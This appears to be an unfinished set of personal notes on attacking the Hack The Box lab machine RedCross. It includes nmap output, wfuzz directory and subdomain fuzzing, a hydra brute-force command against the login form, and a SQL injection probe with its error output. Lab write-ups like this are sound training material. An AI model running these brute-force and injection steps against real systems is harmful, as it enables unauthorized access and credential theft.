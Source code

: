 # Nmap
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 67:d3:85:f8:ee:b8:06:23:59:d7:75:8e:a2:37:d0:a6 (RSA)
|   256 89:b4:65:27:1f:93:72:1a:bc:e3:22:70:90:db:35:96 (ECDSA)
|_  256 66:bd:a1:1c:32:74:32:e2:e6:64:e8:a5:25:1b:4d:67 (ED25519)
80/tcp  open  http     Apache httpd 2.4.25
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
443/tcp open  ssl/http Apache httpd 2.4.25
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to https://intra.redcross.htb/
| ssl-cert: Subject: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=intra.redcross.htb/organizationName=Red Cross International/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-03T19:46:58
| Not valid after:  2021-02-27T19:46:58
| MD5:   f95b 6897 247d ca2f 3da7 6756 1046 16f1
|_SHA-1: e86e e827 6ddd b483 7f86 c59b 2995 002c 77cc fcea
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: redcross.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel


## HTTP 80
-> redirect to https https://intra.redcross.htb/

## HTTPS 443

sudo bash -c 'echo "10.10.10.113 redcross.htb intra.redcross.htb" >> /etc/hosts'

![](2021-03-30-01-28-37.png)


https://intra.redcross.htb/?page=login
https://intra.redcross.htb/?page=contact


LFI test on ?page negative


404 page has 520 bytes, so hide it
    wfuzz -c -f fuzz.log -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'https://intra.redcross.htb/?page=FUZZ' --hh 520



hydra intra.redcross.htb  -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Pa
sswords/xato-net-10-million-passwords-100.txt https-post-form "/pages/actions.php:user=^USER^&pass=^PASS^&action=login:Wrong data" -I



https://intra.redcross.htb/init.php


penelope@redcross.htb

#### guest:guest login
Guest Account Info [1]
From: admin (uid 1)	To: guest (uid 5)

You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.


trying `5'`

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '5' or dest like '1'') LIMIT 10' at line 1

1' OR '1'='1


dest = %


![](2021-03-30-12-52-06.png)

Guest Account Info [1]
From: admin (uid 1)	To: guest (uid 5)

You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.
Problems with order 02122128 [2]
From: tricia (uid 4)	To: penelope (uid 2)

Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.
Strange behavior [3]
From: admin (uid 1)	To: charles (uid 3)

Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?
Problems with order 02122128 [4]
From: penelope (uid 2)	To: tricia (uid 4)

Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.
admin subd webapp problems [5]
From: charles (uid 3)	To: penelope (uid 2)

Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!
admin subd webapp problems (priority) [6]
From: penelope (uid 2)	To: charles (uid 3)

Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR
STOP checking messages from intra (priority) [7]
From: penelope (uid 2)	To: admin (uid 1)

Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...
STOP checking messages from intra (priority) [8]
From: admin (uid 1)	To: penelope (uid 2)

Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP.




### DNS enum

wfuzz -c -f dns-enum.log -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "https://intra.redcross.htb" -H "Host: FUZZ.redcross.htb" --hc 301


000000024:   421        12 L     49 W       407 Ch      "admin"


### Admin subdomain

https://admin.redcross.htb/?page=login

![](2021-03-30-02-03-29.png)


https://admin.redcross.htb/pages/firewall.php



https://admin.redcross.htb/phpmyadmin/

guest:guest -> not enough privileges

